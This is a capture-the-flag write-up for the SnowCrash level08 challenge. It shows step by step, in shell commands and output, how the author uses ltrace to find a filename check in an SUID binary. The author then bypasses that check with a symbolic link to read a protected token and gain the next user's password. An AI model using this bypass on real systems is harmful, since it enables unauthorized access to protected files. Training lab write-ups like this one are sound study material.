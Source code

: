 Login as `level08`.
```shell
┌──$ [~/42/2020/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level08
level08@192.168.1.64's password: fiumuikeil55xe9cu4dood66h
```
An `SUID` executable and token file are located in home directory.
```shell
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ cat token
cat: token: Permission denied
```
Seems that token file cannot be read neither by `./level08` not `cat`.

Use `ltrace` to intercept dynamic library calls and system calls executed by the program.
```gdb
level08@SnowCrash:~$ ltrac ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token") = "token"
printf("You may not access '%s'\n", "token"You may not access 'token') = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
`strstr` function locate a substring `needle` in the string `haystack`.

It can be deduced that if passed file has token string in name, it exits.

Make a symbolic link without token in a filename.
```shell
level08@SnowCrash:~$ ln -s $(realpath token) /tmp/symlink
```
Execute binary with symlink and get password to log into `flag08`.
```shell
level08@SnowCrash:~$ ./level08 /tmp/symlink
quif5eloekouj29ke0vouxean
```
Login as `flag08` and get the flag.
```shell
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
